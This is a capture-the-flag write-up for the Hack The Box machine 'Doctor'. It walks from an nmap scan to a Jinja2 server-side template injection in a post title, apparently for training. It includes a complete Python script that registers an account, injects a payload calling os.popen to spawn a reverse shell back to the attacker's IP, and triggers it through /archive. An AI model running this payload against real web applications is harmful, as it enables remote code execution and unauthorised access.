



HTB Doctor

We start out with the usual nmap scan

Points of interest here are a web server on port 80 and some sort of splunk server running on 8089


We're not able to pull much info out of the splunk interface, since all the dirs require creds.
The contact us page on the webserver has a link to the domain doctors.htb , this was sort of login portal

After creating a new account and logging in, there is a page to create a new post/comment.

In the page source there is a hidden link to the /archive page, which appears to display our posts/comments.

The posts are not being sanitized whatsoever, and we can directly inject html in the /archive page.

The challenge now becomes how can we inject html such that when it gets executed we receive a reverse shell.
I found an awesome html injection resource here

Initially I tried the basic injection. I tried to get the server to execute {4*4*4} so that when we query /archive, the number 64 is presented.
We can see on the archive page source that our code is inside of both a title and item bracket, so our injection will start out closing those first.
After injecting
</title> </item> {4*4*4}
The source code should look like
<title><item> </title></item> 64</title></item>
We can see the expected output, 64, on the archive page

As well as the expected source code

Further down the github link there is a popen() method where it appears we can run shell commands.
At this point we have all we need to get a shell. I started creating a python script to easily do all this.
First step is to grab all of our headers/cookies on the 3 necessary requests.
Registering a new account

Login to new account

Post comment from new account

I then developed the below python script
User.py
#!/usr/bin/python3
from pwn import *
import requests, time, random, string
my_ip = "10.10.14.29"
my_port = "8000"
reg_url = 'http://doctors.htb/register'
login_url = 'http://doctors.htb/login'
home_url = 'http://doctors.htb/home'
inject_url = 'http://doctors.htb/post/new'
archive_url = 'http://doctors.htb/archive'
# generate a random string
def get_random_string(length):
letters = string.ascii_lowercase
result_str = ''.join(random.choice(letters) for i in range(length))
return result_str
user = get_random_string(6).capitalize()
email = user + "@yahoo.com"
# Exploit the SSTI by calling Popen without guessing the offset
# https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
exploit = ""
exploit += " "
exploit += "{% for x in ().__class__.__base__.__subclasses__() %}{% if \"warning\" in x.__name__ %}"
exploit += "{{x()._module.__builtins__['__import__']('os').popen(\"python3 -c 'import socket,subprocess,os;"
exploit += "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"
exploit += "s.connect((\\\""
exploit += my_ip + "\\\","
exploit += my_port + ")); "
exploit += "os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);"
exploit += "p=subprocess.call([\\\"/bin/bash\\\", \\\"-i\\\"]);'\").read().zfill(417)}}{%endif%}{% endfor %}"
# the data for our 3 post requests, burpsuite
reg_dict = { 'username': user, 'email': email, 'password': 'test', 'confirm_password': 'test', 'submit': 'Sign+Up'}
login_dict = { 'email': email, 'password': 'test', 'submit': 'Login'}
inject_dict = { 'title': exploit, 'content': 'Hello World', 'submit': 'Post' }
with requests.Session() as session:
# Attempt to hit the register endpoint and create an account
get = session.get(reg_url)
post = session.post(reg_url, data=reg_dict)
if "Your account has been created, with a time limit of twenty minutes!" not in post.text:
print("[-] Account creation failed.. exiting")
exit(0)
print("[+] Created account " + email)
# Attempt to login with our new creds
login = session.post(login_url, data=login_dict)
if "Logout" not in login.text:
print("[-] Login failed.. exiting")
exit(0)
print("[+] Login success")
# Create our post with exploit string
injection = session.post(inject_url, data=inject_dict)
if "Your post has been created!" not in injection.text:
print("[-] Post creation failed.. exiting")
exit(0)
print("[+] Post created successfully")
# Startup listener and trigger our injected code
l = listen(my_port)
time.sleep(2)
print("[+] Querying /archive to trigger shell")
try:
archive = session.get(archive_url, timeout=0.5)
except:
l.interactive()
The end result is a user shell as web on doctor.

The script generates a random string, registers a new account under that string, logs in and creates a new post,
starts up a nc listener, and finally visits the /archive page to trigger the connection.